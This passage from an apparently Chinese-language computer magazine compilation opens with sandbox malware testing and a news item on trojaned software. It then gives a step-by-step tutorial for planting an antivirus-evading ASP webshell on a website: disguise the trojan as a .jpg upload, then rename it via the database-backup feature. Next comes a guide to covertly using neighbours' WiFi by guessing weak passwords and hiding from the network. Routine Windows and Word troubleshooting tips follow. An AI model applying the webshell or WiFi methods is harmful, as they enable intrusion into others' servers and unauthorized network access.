第三步：打开一个恶意网站，该网站在其提供下载的软件中捆绑了将近10个病毒和木马，把软件下载下来运行，当然这一切都是在IE处于沙盘保护的时候进行的。运行这个恶意软件后，可以看到在沙盘的主界面中多出了数个进程，例如conime.exe、cmd.exe等，这些都是病毒经常伪造的进程，可见，此时病毒正在大量地把病毒释放到我们的系统中。不用害怕，在沙盘主界面中右击沙盘，在出现的菜单中选择“终止程序”，这样沙盘就被关闭了，刚才病毒在系统中干的好事都已灰飞烟灭。我们可以运行任务管理器看看，是不是干干净净，没有什么可疑的进程呢？此外，沙盘还可以保护电子邮件客户端、资源管理器等。当然，最大的目的就是用它来玩病毒，看看病毒运行后都对系统干了什么，可以使用沙盘的“运行任意程序”功能，方法为：在沙盘主界面中点击“沙盘菜单→DefaultBox→在沙盘中运行→运行任意程序”即可，这样我们就可以调试病毒了。

## 提防！网络软件也带木马啦

前段时间，“极品时刻表”被黑客挂马，据发现此挂马网页的瑞星称目前已经有数万网民遭受到了攻击。根据安全专家分析，被植入木马的网页为极品时刻表内嵌的广告网页，用户在使用“查询”功能之后，该软件会自动打开那个被挂马的网页。该网页中使用了多个常用软件的流行漏洞，如果用户没有做好相应的防护，很容易中毒。

目前黑客有在一些内嵌网页的软件服务器上挂马的趋势，除了这次被挂马的极品时刻表外，还有前段时间的暴风影音被挂马，也是通过这一原理，我们在要求这些网络软件加强自己的服务器安全的同时，也要自身重视这一问题。安装杀毒软件、开启实时防护都是现在上网必做之事。

据了解，极品时刻表被植入的木马地址为：http://***.6t65r.cn/，该恶意网站的上报量在近日上升极快，可能黑客还把该网页植入了其他常用网站或软件当中。玩家一旦中毒，电脑会被下载病毒下载器、盗号木马、蠕虫等恶性病毒，从而带来极大的安全风险。

表格截图显示火车时刻和安全警告信息

## 禁止上传 ASP网站照样被挂马

早期的部分网站程序都是允许ASP文件上传的，但随着这个功能不断地被黑客利用，现在绝大部分的网站已经不允许上传ASP类型的文件了，即使是在网站的管理后台也一样。黑客通过漏洞得到一个网站的后台管理员账户和密码后，通常会采取进一步的入侵，例如上传一个ASP木马获取网站的Webshell。黑客是如何获取Webshell的呢？

> **Webshell是什么？**
> Webshell是web入侵的脚本攻击工具。简单的说来，就是一个ASP或PHP木马后门，黑客在入侵了一个网站后，常常在将这些ASP或PHP木马后门文件放置在网站服务器的Web目录中，与正常的网页文件混在一起。然后黑客就可以用Web的方式，通过ASP或PHP木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等。

### 原理解析

黑客要获取网站的Webshell，最常用的方法就是通过网站的数据库备份功能。原理是这样的：网站为了方便管理员对网站数据库进行备份，在后台提供了数据库的备份功能，该功能允许将任意文件备份为数据库文件，而这个数据库的文件名也是可以随意的。因此，可以先将ASP木马文件的后缀名修改为“.jpg”，这样ASP木马就成了一张图片，而网站是允许JPG格式的图片上传的，所以就可以顺利将图片上传到网站上，接着就可以通过数据库的备份功能，将ASP木马的.asp后缀修改回来，这样ASP木马就已经在网站上了。

| 商品缩略图 | ./images/buynopic.gif | 上传商品缩略图 |
| 商品原图 | ./images/buynopic.gif | 上传商品原图、 |
| 其他展示图一 | le/20092242262159028b.jpg | 上传商品原图 |

### 实例: 获取Webshell过程

第一步：ASP木马的准备。在入侵之前，首先要对ASP木马进行一下加工。首先当然是代码加密，因为ASP木马和普通的病毒木马一样也是会被杀毒软件查杀的，因此要通过加密的方法让它躲避杀毒软件。有些朋友将ASP木马改为jpg文件上传后，会发现找不到文件，这很有可能是因为ASP木马已经被服务器上的杀毒软件给kill了（见图1）。那么如何给ASP木马加密呢？



可以到网上下载一款名为“免杀ASP木马生成器”（下载地址：http://download.csdn.net/source/858608）的软件，下载完成后运行，其内置了5款经典的ASP木马。只要点击相应的按钮就可以生成加密好的木马，用记事本打开加密好的木马，可以发现里面的内容都是乱码，无法辨认，这就是加密后的效果。也可以用杀毒软件对这个ASP木马进行查杀，验证加密效果（见图2）。

ASP木马准备好后，将其后缀名改为.jpg，这样ASP木马就成了一张特殊的“图片”。

第二步：获取Webshell。假设已经得到了一个网站的管理员账户密码，并且已经顺利登录到了后台管理页面。先来将ASP木马上传到网站上，找到一处可以上传图片的地方，例如本例中我们将ASP木马上传到了商品图片处，上传完毕后会得到图片的地址，例如：../buy2buyupfile/20092242262159028b.jpg。再来到网站的数据库备份页面，在“数据库路径”中填入刚才得到的图片地址，然后在“备份数据库”名称中填入hack.asp，不出意外，网站会提示备份成功（见图3），现在就可以直接访问hack.asp得到一个Webshell了。

```
当前数据库路径(相对路径): yupfile/20092242262159028b.jpg
备份数据库名称(填写名称): hack.asp
确定
```

> **小提示**
> 由于网站程序的不同，在上传ASP木马和备份数据库的地方会有所不同，但是基本步骤和原理都是一样的，大家可以多加练习，融会贯通。

### 技巧：后台管理写入Webshell

进入后台后还可以通过修改相关文件来写入Webshell。比较的典型的有dvbbs6.0，还有leadbbs2.88等，直接在后台修改配置文件，写入后缀是asp的文件。而LeadBbs3.14后台获得Webshell另一方法是：添加一个新的友情链接，在网站名称处写上冰狐最小马即可，最小马前后要随便输入一些字符，http:\网站\inc\IncHtm\BoardLink.asp就是想要的shell。

#### 网络大补贴：

从后台得到webshell十大技巧大汇总：http://soft.yesky.com/security/hkjj/55/2383555.shtml。

## 小区免费蹭网，还不被发现

住在城市小区中的朋友们，可能每次打开电脑的无线开关，都会搜索到三四个无线信号，很多无线路由器是加了密的，有的则是共享的；有的路由器信号强，有的路由器信号弱，有没有办法简单搜索到最适合蹭网的路由器呢？

### 蹭网第一阶段：破门而入

如果要蹭网，优先选择那些信号强、加密措施弱的无线路由器。WiFi信号越强，传输速度越高。由于安全性方面的考虑，现在很多无线路由器都启用了加密措施，加密强度依次为：WPA2、WPA、WEP，相对来说前两者较难破解，目前的破解基本走的是暴力破解的路子。所以优先寻找没有加密的无线接入点，其次寻找WEP加密的接入点，然后再进行破解。

第一步：下载软件并安装（下载地址：http://www.newhua.com/soft/47676.htm），之后运行WirelessMon。首先先在Select Network Card（选择新的卡片）（见图1）中选择当前所使用的无线网卡，然后选择Reload Cards（重新导入卡片）。这时软件会自动扫描所有周边的无线接入点。



第二步：如图1，主要关注下方的列表。其中SSID就是接入点的标识，Channel代表的是使用的通道，而我们最关心的就是RSSI和Security两个项目。其中RSSI用柱状图表示这个接入点的信号强度，而Security表示的是接入点要求的安全设置。Required说明需要密码，“(WPA)”表示接入点使用WPA加密，根据分析自然对WPA的接入点敬而远之。

> **小提示**
> 如果实在没有其他选择，输入几个常见的密码试试看，例如输入SSID的字符、12345之类简单的密码，或许这个路由器的密码就这么简单。有时候即使输入了正确的密码、信号很强也无法使用这个接入点，那么它可能使用了MAC地址过滤，碰到这种路由器还是直接更换一个接入点吧。

第三步：先按照安全性排序，寻找弱加密的路由器（接入点），然后在其中找到信号最强的路由器（建议RSSI值大于-80），然后在列表中双击这个接入点或者点击右键选择Connect To AP连接接入点。如果选择的是加密的路由器，得自己设置Authentication Method、Encryption Method。

第四步：连接上之后，在表的上部就能看到接入点的一些情况。最关心的是那个有“十字星”的图，这个图表示的是信号强弱。越靠里或者剩余圈圈的颜色越“红”那么表示信号越差；点击左边的Graphs选项卡，这里可以绘制信号强度百分比和时间的关系图。

### 蹭网第二阶段：你看不到我

既然进了人家的地盘，就不可避免出现在人家电脑的“网上邻居”中。那有什么两全其美的办法，让自己的电脑不出现在“网上邻居”中呢？

办法1：关闭“Microsoft网络的文件和打印机共享”服务。依次打开“我的电脑→控制面板→网络连接”。在本地连接上点击右键，选择“属性”，在“本地连接→属性”窗口中会显示正在使用中的功能列表，将“Microsoft网络的文件和打印机共享”和“QoS数据包计划程序”这两项前面的钩取消（见图2），点击“确定”。



重启后，别人就无法在“网上邻居”中看到你了。

方法2：让你隐身的Hidden键。
单击“开始→运行”输入regedit运行“注册表编辑器”，依次展开[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanManServer\Parameters]，在右侧会有一个名为Hidden的键，在其上面双击，将其键值改为1（见图3），点击“确定”即可。
这样设置后，别人就无法在“网上邻居”中看到了。



> **小提示**
> 本文所使用的方法是在“网上邻居”中隐藏自己的计算机，但是这种隐藏方法是非常简单的，如果你想共享一些资料，可以为共享资源添加密码，或者干脆使用其他的文件共享方式，例如QQ直传，自建FTP等。

## 我的私密我做主

电脑已经渗入到生活的每个角落，可以在互联网看新闻、聊天、玩游戏、发邮件、办公，甚至是交易，但是很多时候，一台电脑多人使用，那如何才能保障电脑信息的安全，即使在别人操作你的电脑的时候，也不被发现自己的私密信息呢？

对于很多初级用户来说，可以建立来宾账户，方法是：在“控制面板→账户”中单击“创建一个新的账户”，然后在下一步操作中输入账户名字，比如christ。类型选择“受限”，单击创建账户按钮，就可以创建一个名为christ的新帐户，这就是来宾账户。

我们做到彻底的安心呢？要如何解决这个问题呢？

### 方案一：打不开的文件夹

★适合人群：常在文本文档中记录秘密的人

上面所提到让别人看到有对来宾账户的不信任感觉，用这个方法就可以很好的解决。不用设置来宾账号，有个小技巧可以教你。把重要信息记录在文本文件上，不用借助外部加密工具，只要对系统进行些小修改，就可以对这个文本加密，使它在正常途径下打不开，是不是感觉很神奇？

第一步：打开“开始”菜单里的“运行”，输入cmd打开命令提示符窗口（见图1）。在命令提示符窗口里，以C盘根目录为例，输入“md czxhui..”（不包括引号），回车。这样，就可以在C盘中，找到一个“czxhui..”文件夹。双击这个文件夹，会发现系统拒绝打开。



在命令提示符窗口输入“start czxhui...”，回车，这个文件夹就打开了（见图2），可以在里面存入你的秘密了。



如果想要删除这个文件夹，可以在命令提示符窗口中输入“rd czxhui...”后回车就可以了。不过前提是，要先把文件夹里的秘密清空。

**缺陷：**

此方法只能用于文本文件，不适用于其他文件类型。在C盘里看到的是个文件夹，而且通过运行后，打开的是个文件夹，但是在里面只能建立文本文件，其他类型文件建立了也是打不开的。如果遇到懂程序的人，很容易破解，如同密码锁很容易被破，还不如实体的钥匙拿在手上来得安心。

### 方案二：只有我能启动系统

★适合人群：长期电脑工作者，办公室工作者，电脑上有很多秘密资料

为了确保自己电脑的安全，并且避免他人随便开启自己的电脑查看自己的私密信息，除了设置个人密码外，还可以通过简单的设置让电脑只有在插入自己的U盘后才能启动，否则启动后即自动关机。这就解决了上面的问题，虚拟钥匙没有实体钥匙来得安心，现在就把制作以U盘为实体钥匙的方法呈现给大家。

第一步：首先确定U盘的盘符，可以将自己的U盘插上，然后就可以看到盘符了，这一步是很重要的，如果把盘符弄错了，那就让你的电脑长眠吧。在U盘里创建一个文件，文件名和扩展名均任意输入，比如创建的文件为123.lj。

第二步：在本地磁盘上创建一个批处理文件（用记事本另存为.bat即可），其内容为如下一行语句：

```
if not exist I:\123.lj shutdown -s -t 10 -c "你无法使用该计算机"
```

这里I为U盘盘符，数字10是自己设定的时间。全句话的意思是如果U盘中不存在123.lj这个文件，则在10秒后关闭该计算机，并显示“你无法使用该计算机”这一提示信息。

第三步：在运行里输入“gpedit.msc”打开组策略，并定位到如下路径：本地计算机策略→计算机配置→Windows设置→脚本(启动、关机)，然后在右边的框中选择“启动”项，并将刚才建立的批处理文件添加到启动脚本列表中，确定并退出就可以了（见图3）。



### 小提示

这样如果U盘“钥匙”不慎弄丢，该怎么解决呢？那我们再说说U盘遗失情况下的解决办法：

- 如果时间足够多，可以在运行中输入shutdown -a来解除关机指令。
- 可以将计算机启动到安全模式下将启动脚本删除，因为在安全模式下是不会加载开机脚本的。

到这里就大功告成了，这时，只有在开机时插入U盘才能启动计算机并进入系统，否则将出现提示并在指定时间内关闭计算机。

## Windows XP系统中的缩略图不显示了

问：最近不知道怎么回事，在Windows XP中缩略图的内容不显示，但以前却是正常显示。请问我该如何解决这个问题？

答：出现这个问题，一般都是因为Windows XP系统中的shimgvw.dll文件丢失了造成的，该文件负责缩略图的显示功能。解决这个问题的方法如下：

- 你先到网上或者在Windows XP的安装光盘中找到shimgvw.dll文件，然后复制到你电脑硬盘的X:\Windows\System32（X为Windows的安装分区）中。
- 需要将shimgvw.dll文件进行注册，让系统接纳该文件，此时要在系统桌面上用鼠标依次选择“开始→运行”。
- 在弹出窗口的“打开”栏中键入regsvr32 shimgvw.dll并按回车键运行注册命令。

这样处理后你再次查看文件缩略图时就会发现恢复正常了。

## Vista系统狂读硬盘

问：我最近安装了Windows Vista操作系统，可我发现系统在某个固定的时间段会出现狂读硬盘的现象。请问这是为什么？

答：这是因为Windows Vista系统自动执行了“磁盘碎片整理计划”的缘故，关闭这个管理计划的方法如下：

- 在系统桌面上用鼠标依次选择“开始→附件→系统工具→磁盘碎片整理程序”。
- 选择取消“按计划运行（推荐）”选项即可。

## 关闭Vista系统安全中心的提示

问：每次开机时Windows Vista系统的安全中心都会弹出提示。请问如何关闭这个提示信息？

答：操作步骤如下：

- 在系统桌面上依次选择“开始→控制面板→安全中心”。
- 选择“更改安全中心通知我的方法→选择不通知我，但显示图标”即可。

## Vista中玩游戏不流畅

问：我最近安装了Windows Vista操作系统，发现在运行一些大型游戏时总是出现停顿的现象，而在我原来使用的Windows XP系统下就没有这样的现象。请问如何才能解决这个问题？

答：Windows Vista操作系统设置了一些炫目的3D特效，这些特效无疑是消耗内存的大户。要想使游戏运行得顺畅，最彻底的解决办法是购买内存条来增加内存容量。如果你不想花这笔钱，关闭Windows Vista中消耗内存的3D特效也可以加快游戏运行的速度。具体的操作步骤是：

- 在系统桌面上用鼠标依次选择“开始→控制面板”。
- 选择“个性化”，在“Windows颜色和外观”中去掉对“启用透明效果”的勾选，这样就可以直接关闭Aero玻璃特效了。
- 回到系统桌面，用鼠标依次选择“开始→控制面板”。
- 选择“系统和维护”，在“系统”窗口中，单击“高级系统设置”项。
- 在弹出的“系统属性”窗口中选择“高级”选项卡。
- 在“性能”栏中点击“设置”按钮，在弹出的“视觉效果”选项卡中，去掉“在桌面上为图标标签使用阴影”项前的勾选，这样就可以关闭Windows Vista系统中的桌面文字特效了。当然，也可以直接选择“调整为最佳性能”项，这样对提高游戏性能更好。

## Windows XP Home Edition能用远程桌面吗

问：我发现Windows XP的“远程桌面”功能可以很好地控制另一台电脑。不过Windows XP有好几种版本，请问在Windows XP Professional和Windows XP Home Edition之间能使用“远程桌面”功能吗？

答：不一定能，要远程联系的那个桌面必须是Windows XP Professional操作系统，这样才能使用此功能。因此如果你使用Windows XP Home Edition内置的“远程桌面连接”功能区连接另一台电脑，而那台电脑上安装了Windows XP Professional操作系统，则无法建立连接。

## Vista的资源管理器停止工作

问：我在Windows Vista系统中打开“控制面板”时出现“Windows资源管理器已经停止工作”的错误提示。请问要如何才能解决这个问题？

答：出现这个提示的原因是系统中存在硬件驱动冲突，一般和声卡驱动程序有关，你可以尝试重新安装声卡驱动程序。

## 无法建立系统还原点

问：我的电脑中安装的是Windows XP操作系统，我最近在创建新的系统还原点时系统提示“无法完成新还原点的创建，请重新启动计算机，再次运行系统还原”。可是即使重新启动之后仍旧无法完成新还原点的创建。请问这是怎么回事？

答：造成这个问题的原因一般是系统防火墙的阻碍，如果你安装了防火墙软件，建议先关闭该软件，然后再创建系统还原点；如果你仍在使用Window XP的防火墙，采用如下步骤关闭：

- 在系统桌面上用鼠标单击“开始”按钮，然后选择“运行”。
- 在弹出的窗口中的“打开”栏内键入Firewall.cpl，然后单击“确定”按钮运行命令。
- 在出现的窗口中的“常规”选项卡上，单击“关闭(不推荐)”，然后单击“确定”按钮即可。

## 安装系统找不到Setup文件

问：我下载了一个Windows XP SP2版本，解压后找不到熟悉的Setup.exe文件，只发现了一个I386的文件夹，请问我该如何安装这个系统呢？

答：你可以进入“I386\update”文件夹，在其中运行“update.exe”文件就可以安装系统了。

## 重装系统后“我的文档”无法打开了

问：我的电脑中安装的是Windows XP操作系统，以前手动将“我的文档”转移到了D盘，前几天由于系统文件出现问题，我又重新安装了系统，启动系统后发现无法打开原来移动到D盘的“我的文档”了，屏幕上提示说“您无权查看或编辑我的文档的权限设置；但是您可以取得所有权或更改审核设置”。请问我该如何解决这个问题？

答：出现这个问题的原因是你新装系统后并没有为新用户添加访问老文件夹的权限，可以通过如下操作解决问题：

- 在系统桌面上用鼠标依次选择“开始→设置→控制面板”。
- 选择菜单中的“工具”，在弹出的下拉菜单中选择“查看”选项卡，取消选择“使用简单文件共享”。
- 用鼠标右键单击那个无法访问的“我的文档”图标，在弹出的右键菜单中选择“属性”，再选择“安全”。
- 单击“高级”按钮，切换到“所有者”选项卡，把当前用户添加为文件夹的所有者，勾选下方的“替换子容器及对象所有者”项并单击“确定”按钮。
- 再次选择进入“安全→高级→权限”，选中刚刚添加的当前用户账户（如果不存在则点击“添加”按钮添加该用户）。
- 单击“编辑”按钮，然后勾选“完全控制”项，按提示连续单击“确定”按钮即可。

## 为何自动打开系统配置实用程序

问：我的Windows XP操作系统最近不知为什么，每次开机后，都会打开“系统配置实用程序”窗口，单击“关闭”按钮后，提示让我重新启动，可重新启动后，问题依旧。请问这是怎么回事？

答：这是因为你选择了“有选择的启动”模式，导致开机后出现“系统配置实用程序”窗口。解决问题的方法如下：

- 在系统桌面上用鼠标依次选择“开始→运行”。
- 在弹出的窗口中的“打开”栏中键入msconfig并按回车键运行“系统配置实用程序”。
- 在弹出的窗口中选择“一般”，接着勾选“正常启动 - 加载所有设备驱动程序和服务”项。（如图）



- 依次单击“应用→确定”按钮即可。

## 如何恢复“我最近的文档”

问：我使用了系统优化软件对系统进行优化，于是每次重新启动系统后，“我最近的文档”列表都会被自动清除，“运行”窗口中的列表也被清除。最近我将这个系统优化软件卸载了，可自动清除功能仍然有效，我想取消这个功能，请问有什么办法？

答：你可以通过修改注册表的方法解决问题，操作步骤如下：

- 在系统桌面上用鼠标依次选择“开始→运行”。
- 在弹出的窗口中的“打开”栏中键入regedit并按回车键运行注册表编辑器。
- 依次展开[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]，将右侧窗口中的“ClearRecentDocsOnExit”键值项直接删除即可。

## 启用、禁用Windows XP的服务

问：我经常看到一些文章提到Windows XP的服务，说某些服务可以禁用，某些服务如何开启，在Windows XP系统中，到底在哪个地方可以设置这些服务？

答：要设置Windows XP的服务可以采用如下操作步骤：

- 在系统桌面上用鼠标右键单击“我的电脑”图标，在弹出的右键菜单中选择“管理”。
- 在打开的“计算机管理”窗口中选择“计算机管理”
- 然后选择“服务和应用程序”，接着选择“服务”，这样就可以在右侧窗口中看到所有的相关服务了，而且后面还有相关的说明。（如图）



## 系统不让安装软件

问：我电脑中的操作系统是Windows XP，在安装一些软件时，系统提示不能访问Windows Installer服务器，并说我可能在安全模式下或是Windows Installer没有正确安装。请问这是怎么回事？

答：Windows Installer是一个Windows系统中的一个安装引导程序，你的系统中Windows Installer服务组件可能出现了故障。你可以从微软的官方网站下载Windows Installer组件并将其重新安装到系统中即可解决问题。

## Windows XP“组策略”无法打开

问：我的电脑中安装的是Windows XP操作系统，最近想设置一下“组策略”中的参数，却发现“组策略”无法打开了。请问如何才能恢复“组策略”？

答：解决无法打开“组策略”的方法如下：

- 在系统桌面上用鼠标依次选择“开始→运行”。
- 在出现的窗口中的“打开”栏内键入regedit并按回车键启动注册表编辑器。
- 用鼠标依次展开[HKEY_CURRENT_USER\Software\Policies\Microsoft\Mmc\{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}\Restrict_Run]和[HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}\Restrict_Run]分支，将Restrict_Run键值项删除即可。

## 不让程序都安装在拥挤的系统分区域内

问：在Windows XP中，系统会默认将应用软件安装到系统盘根目录下的Program Files文件夹中。通常系统盘的磁盘空间都是很紧张的。请问如何让系统默认将第三方应用软件安装到系统盘以外的磁盘分区中？

答：你可以通过修改注册表来一劳永逸地解决问题。具体步骤是：

- 在系统桌面上用鼠标依次选择“开始→运行”。
- 在弹出的窗口中的“打开”栏中键入regedit并按回车键运行注册表编辑器。
- 依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion]，将ProgramFilesDir的值改成你新设置的安装路径就可以了。

## 抛弃光盘 XP自动修复受损的文件

问：我的系统是Windows XP，但是最近有系统文件被破坏了，恢复系统文件的时候老是提示我要插入光盘，不知道有没有什么方法可以解决？

答：Windows XP的系统文件恢复功能目前仍然有很多人在使用，只要硬盘上有Windows XP安装文件就可以抛弃光盘，让系统自己寻找恢复文件。具体方法请看下文。

木马、病毒的“偷梁换柱”、杀毒软件的误杀以及自己无意中的误操作，都会使系统组件“很受伤”，这时就会弹出一个“Windows 文件保护”的窗口，要求恢复被替换或者被删除的系统文件。但是恢复系统文件还要使用Windows XP（简称XP）安装光盘，实在是太麻烦了。由于现在的硬盘空间越来越大，如果将Windows安装光盘的文件“转移”到硬盘上，恢复系统文件就不需要插入光盘了，是不是很方便？下面就给大家介绍一下如何实现。

第一步：先将Windows XP安装光盘中的所有内容复制到硬盘中的某个位置，如F:\XPBack目录下。

第二步：单击“开始→运行”命令，打开“运行”对话框，输入regedit，打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Setup]主键下，首先将右边的CDInstall的键值数据修改为0；然后再分别将ServicePackSourcePath和SourcePath两个键值都修改为F:\XPBack。

以后如果系统再一次弹出要求插入光盘恢复系统文件时，只需调出cmd命令行工具，然后运行sfc /scannow，系统就会自动进行系统文件的修复，不会再要求放入光盘了。

## 看清楚蓝屏代码的真面目

问：我使用的Windows XP系统最近经常出现蓝屏，每次只有重启恢复，一直很想知道蓝屏到底提示的是什么问题？

答：解决的方法是查阅微软知识库，首先记下出现蓝屏故障屏幕上显示的代码，例如“0x0000006F”，打开浏览器访问http://www.microsoft.com/zh/cn/default.aspx，这是微软帮助和支持的中文主页，在页面顶端的搜索框中输入以上错误代码，按下回车键，稍后即可搜索出与这个错误代码有关的文章，很快就可以找到产生问题的原因，虽然是机器翻译的结果，但至少可以从中获得解决错误的思路，这样就不用走弯路了。（如图）



## 不重启就让组策略修改生效

问：为了优化系统、提高安全性能，我常常需要修改Windows系统的组策略，但对于有些组策略选项，修改以后必须重启系统或者注销后再次登录才能生效，可如果正在编辑文档或下载电影，势必会受到很大的影响。请问有什么更好的办法？

答：其实，在“开始”菜单中的“运行”项内输入并执行gpupdate命令，就能让刚刚修改的组策略项立即生效了。

## 手工解决双击分区打不开的顽症

问：在“我的电脑”中，有时候会遇到这样的情况：双击硬盘分区的盘符，根本无法打开，而只能先运行“资源管理器”再去打开硬盘分区。请问这是怎么回事？

答：这是你中了Autorun病毒造成的问题。有些杀毒软件即使查杀了Autorun病毒，也会引起双击分区打不开的“后遗症”。解决问题的方法如下：

- 删除文件：打开“我的电脑”，依次单击“工具→文件夹选项→查看”，选中“显示所有文件和文件夹”后点“确定”，然后用“资源管理器”打开各个分区，若发现各分区根目录下有autorun.inf隐藏文件，删除它们并重启电脑。
- 重新设置打开方式：同样打开“我的电脑”，依次单击“工具→文件夹选项→文件类型”，找到“驱动器”并选中，然后单击“高级”按钮，弹出“编辑文件类型”窗口，再单击“新建”，在操作里输入“open”，在“用于执行操作的应用程序”里输入“explorer.exe”，点“确定”后返回到“编辑文件类型”窗口，选中“open”且单击“设为默认值”，最后单击“确定”，重新启动电脑试试看。
- 修改注册表：打开注册表编辑器，定位至[HKEY_CLASSES_ROOT\Drive\shell]分支，将其下的键值全部删除，保存后退出注册表编辑器。

## 多个文件同时打印

问：要打印编辑好的多个格式不同的文件时，需要使用不同的软件将它们打开。请问有没有更简单的办法？

答：你可以在“我的电脑”或“Windows资源管理器”窗口直接选取要打印的多个文件，然后指向选择的文件并单击鼠标右键，再单击快捷菜单上的“打印”即可。

## 让微软拼音不再“不请自来”

问：我在启动Word 2003/2007时，“自作多情”的微软拼音输入法总是会出现在面前。我平时不习惯使用这种输入法。请问怎样才能使微软拼音输入法不随着Word的启动而自动出现呢？如果想让自己熟悉的输入法自动启动又该如何设置呢？

答：启动Word 2003/2007，先依次选择菜单中的“工具→选项”命令，打开“选项”对话框并切换到“编辑”选项卡，接着取消勾选“输入法选项”下边的“输入法控制处于活动状态”复选框，最后单击“确定”按钮。这样，当你再重新启动Word时，你不习惯使用的微软拼音输入法就不会自动出现了。

现在启动Word时，微软拼音输入法不会再自动出现，但每次启动Word后再切换到自己常用的输入法也是很麻烦的，你可以用鼠标右键单击任务栏中的输入法图标，选择“设置”选项，打开“文字服务和输入语言”对话框并切换到“设置”选项卡，单击“选择计算机启动时要使用的一个已安装的输入语言”下面的下拉箭头，在弹出的下拉列表中选择经常用到的输入法语言，如“极品五笔”，最后点击“应用”或“确定”按钮。这样一来，当你再一次启动系统后，极品五笔就成了默认打开的输入法语言。

## Word文档分页更有规矩

问：为了方便文档的排版打印，我常常会将同一主题下的多个不同标题的文档放在同一个Word文档进行编辑，在一个标题结束后，往往是通过回车换行的方式进行手动分页。一旦再对文档进行文字、段落或页面设置，原来的分页有时就会被打乱，往往又要对整个文档进行重新分页。请问如何解决这个问题？

答：其实不必如此，你可以在每一个标题结束后，在Word 2007里执行“页面布局→分隔符→分页符”命令（Word 2003里执行“插入→分隔符→分页符”命令），插入一个自动分页符号，以作为一个标题文档的结束标记自动分页。以后再要对该文档进行任何编辑修改，就不会影响到各个标题的分页设置。

通过类似的方法，你还可以进行分栏、自动换行等特殊符号的插入，通过这些符号，可以让我们的文档在排版打印时能“守点规矩”。

当然，分页符作为一种特殊的不可打印的格式标记，一般情况下不会显示在文档窗口中，右击选项卡的任意空白处，执行“自定义快速访问工具栏→Word选项→显示→显示所有格式标记”命令（Word 2003里执行“工具→选项→视图→格式标记→全部”命令），就可以显示出文中所有的格式标记。

## Word 2007启动加速

问：随着Word 2007新功能的不断增加，启动时需要加载的模块也在不断增多，Word 2007的启动速度慢如蜗牛。请问有没有办法加快Word 2007的启动速度？

答：其实，Word 2007中不少模块在日常工作中并不常用，如果能让它们从启动列表中暂时下岗，为Word 2007启动减负、瘦身，其速度将大大提升。首先打开Word 2007，在窗口中点击左上角的Office图标，在下拉列表中点击位于下方的“Word选项”按钮。然后在打开的“Word选项”窗口点击“加载项”标签，打开“查看和管理Microsoft Office加载项”窗口。在“加载项”框中，可以看到“活动应用程序加载项”、“非活动应用程序加载项”及“文档相关加载”等，并注明了其位置及类型。点击“管理COM加载项”后面的“转到”按钮，调出“COM加载项”管理窗口，此时会显示出Word 2007启动时可用的加载模块列表。在这里，比如“稿纸向导”和“书法加载项”等组件，是平时很少使用的功能，因此，完全可以让它们暂时“下岗”，将它们前面的钩去掉，点击“确定”即可。当再次启动Word 2007时速度会加快很多。

## Word 2007也能多页打印预览

问：在以前的Word版本中进行打印预览时都有一个多页按钮，我可以通过点击这个按钮拖出多个页面进行显示。而到了Word 2007版本却没有了这个按钮，如果需要进行多页预览，应该如何操作呢？

答：你可以按照下面的方法实现。预览时首先点击Office按钮，在弹出的菜单中选择“打印→打印预览”菜单命令，弹出打印预览对话框，在“预览”组中可以点击“下一页”和“上一页”按钮在不同的页面之间转换，在“显示比例”组中可以点击“单页”和“双页”按钮在预览时显示一页或者两页。

## 生僻字录入并不难

问：我在用拼音法输入汉字时，如果遇到不认识的汉字就没法输入了。请问有没有什么好的解决办法？

答：遇到这种情况时，可以试用下面的两种方法。

(1) 利用Word中的插入符号法
比如要输入“朐”，先打开Word，输入“月”字并选中它，依次单击“插入→符号”，在弹出的窗口中把“字体”定为“普通文本”，“子集”定为“CJK统一汉字”，就可以看到许多有“月”部首的汉字，从中可以找到“朐”字，双击这个汉字就可输入。

(2) 用“微软拼音”输入法中的手写板来输入
切换到微软拼音输入法，单击“选项”（即右下角倒三角按钮），勾选“输入板”，那么在输入法状态条中便会多出一个“开启/关闭输入板”切换按钮，单击该按钮，弹出“手写识别”窗口，这样我们就可以将鼠标当成笔在左侧窗口中书写生僻汉字了，双击中间窗口得到的汉字“朐”即可输入。

## 单独设置部分页面中的格式

问：有一篇十多页的文档，现在要将其中的几页中的文字由横向设置成纵向，但在设置时，所有的页面中的文字格式都会跟着变化。请问，如何才能实现单独设置部分页面中的格式？

答：Word 2007中可以通过插入分节符将文档逻辑上分成不同的节，之后就可以为它们设置独立的格式了（例如纵向、横向、页码等）。

首先，在工具栏任意位置右击鼠标，在弹出的快捷菜单中选择“自定义快速访问工具栏”，在打开的Word选项对话框左边选择“自定义”，在“从下列位置选择命令”下拉列表中选择“常用命令”，双击“插入分页符和分节符”，添加到快速工具栏中，最后单击“确定”保存设置。

接下来，单击快捷工具栏中的“插入分页符和分节符”，选择“下一页”，再单击“页面布局”，选择“分隔符”，选择“分节符”中的“下一页”即可。这样设置后，你就可以对指定的内容进行格式独立设置了。

## 清除Word 2007文件的隐私信息

问：我发现通过查看Word文档属性，可以得到文档的标题、主题、作者、创建时间、最后编辑时间、最后保存者及公司名称等个人信息。我不想让别人看到这些信息。请问我该怎么办？

答：你可以通过如下步骤解决问题：

(1) 启动Word 2007，在出现的窗口中用鼠标单击位于左上角的Microsoft Office徽标按钮。
(2) 在弹出的菜单中依次选择“准备→检查文档”。
(3) 在“文档检查器”对话框中单击“检查”按钮，系统会把检查出的文档的批注、修订、版本和注释、文档属性和个人信息、隐藏文字等选项用感叹号标记出来，接着点击“全部删除”按钮就可以清除这些隐私信息了。

## Word 2007中取消正在执行的后台打印

问：我经常在刚刚编辑完一篇文档并选择了打印命令后，发现打印内容有问题，想停止当前的打印。请问如何才能实现？

答：用户在Word 2007中发出打印文档命令后，该软件会自动将打印任务设置为后台打印，同时在状态栏上出现打印机图标，打印机图标旁边的数字显示的是正在打印的页的页码。要想即时取消后台打印任务的话，只要用鼠标双击打印机图标就可以了。

## Word 2007让文字表格化

